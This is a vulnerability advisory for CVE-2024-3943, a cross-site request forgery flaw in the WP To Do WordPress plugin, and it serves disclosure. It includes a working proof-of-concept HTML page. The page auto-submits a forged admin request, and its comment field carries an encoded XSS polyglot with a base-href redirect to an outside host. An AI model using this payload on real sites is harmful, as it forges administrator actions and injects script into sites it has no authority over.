 ```yaml
---
layout: page
title: CVE-2024-3943
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_addcomment
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_addcomment function. This makes it possible for unauthenticated attackers to add comments to to do items via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=wp-todo&view=3" method="POST">
      <input type="hidden" name="wptodo&#95;comment&#95;author" value="1" />
      <input type="hidden" name="wptodo&#95;comment&#95;task" value="1" />
      <input type="hidden" name="wptodo&#95;comment&#95;body" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wptodo&#95;comment&#95;submit" value="Add" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L225
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-addcomment





